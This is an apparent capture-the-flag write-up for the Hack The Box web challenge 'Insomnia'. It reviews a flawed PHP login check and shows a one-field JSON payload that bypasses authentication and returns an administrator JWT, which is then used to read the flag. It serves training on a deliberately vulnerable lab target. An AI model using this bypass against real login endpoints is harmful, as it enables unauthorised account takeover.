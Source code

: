 ```yaml
---
clayout: ctf
title: Insomnia
date: 2024-10-23
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: Insomnia
      link: https://app.hackthebox.com/challenges/610
      thumbnail: /ctf/hack-the-box/challenges/web/insomnia/insomnia-thumbnail.gif
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/610
          thumbnail: /ctf/hack-the-box/challenges/web/insomnia/pwned.png
---
```


## Box description

Welcome back to Insomnia Factory, where you might have to work under the enchanting glow of the moon, crafting dreams
and weaving sleepless tales.

## Challenge description

The web application provides several pages: Home, Sign-up, Sign-in, and Profile. Users can create accounts via the
Sign-up form and log in using the Sign-in page.

Once logged in, users are redirected to their profile page. Here's an example of the profile page after login:

![Insomnia - profile page](/ctf/hack-the-box/challenges/web/insomnia/insomnia-profile-page.png)

The challenge lies in exploiting the login mechanism to gain access to the administrator's profile and retrieve the
flag.

## Code review

### Profile controller

The profile controller contains the logic for rendering the profile page, including how the flag is revealed to
administrators.

```php:line-numbers {7}
$token = (string) $_COOKIE["token"] ?? null;
$flag = file_get_contents(APPPATH . "/../flag.txt");
if (isset($token)) {
    $key = (string) getenv("JWT_SECRET");
    $jwt_decode = JWT::decode($token, new Key($key, "HS256"));
    $username = $jwt_decode->username;
    if ($username == "administrator") {
        return view("ProfilePage", [
            "username" => $username,
            "content" => $flag,
        ]);
    } else {
        $content = "Haven't seen you for a while";
        return view("ProfilePage", [
            "username" => $username,
            "content" => $content,
        ]);
    }
}
```

The flag is only displayed if the `username` in the decoded **JWT** token is **administrator**.

### User controller

The **login** function in the user controller contains a vulnerability that allows bypassing the login process with a
crafted payload.

```php:line-numbers {5,8}
public function login()
{
    $db = db_connect();
    $json_data = request()->getJSON(true);
    if (!count($json_data) == 2) {
        return $this->respond("Please provide username and password", 404);
    }
    $query = $db->table("users")->getWhere($json_data, 1, 0);
    $result = $query->getRowArray();
    if (!$result) {
        return $this->respond("User not found", 404);
    } else {
        $key = (string) getenv("JWT_SECRET");
        $iat = time();
        $exp = $iat + 36000;
        $headers = [
            "alg" => "HS256",
            "typ" => "JWT",
        ];
        $payload = [
            "iat" => $iat,
            "exp" => $exp,
            "username" => $result["username"],
        ];
        $token = JWT::encode($payload, $key, "HS256");

        $response = [
            "message" => "Login Succesful",
            "token" => $token,
        ];
        return $this->respond($response, 200);
    }
}
```

Looking at the following condition `if (!count($json_data) == 2)` the login function expects an array with two elements.
But using `!count($json_data) == 2` instead of `count($json_data) !== 2` will always return false. So we can send an
array with one element to bypass the login.

To ensure that we can send our payload we need to check the `getWhere` function in the user controller. After digging
into the code we found that this function add a `where` clause to the query builder. So we can send a payload with only
the username field to bypass the login.

## Exploit

### Step 1: Bypass the Login

To exploit the vulnerability, we send a POST request to the login endpoint with a payload containing only the username:

```json
{
    "username": "administrator"
}
```

Using **Burp Suite**, we send this request and receive a successful response containing a JWT token for the
administrator:

```json
{
    "message": "Login Succesful",
    "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3Mjk2ODM3NDUsImV4cCI6MTcyOTcxOTc0NSwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.Jn6DFrXpONJqBsVO1irVTjd4cpHkd7d8LaAwrlqWsao"
}
```

### Step 2: Access the Administrator Profile

Next, we set the JWT token in our browser's cookies and reload the profile page. The application verifies the token,
sees that the username is administrator, and displays the flag.

![Insomnia - flag](/ctf/hack-the-box/challenges/web/insomnia/insomnia-flag.png){style="width: 100%;"}

We successfully retrieve the flag! Now we can try our payload on the real **HTB** box to retrieve the flag
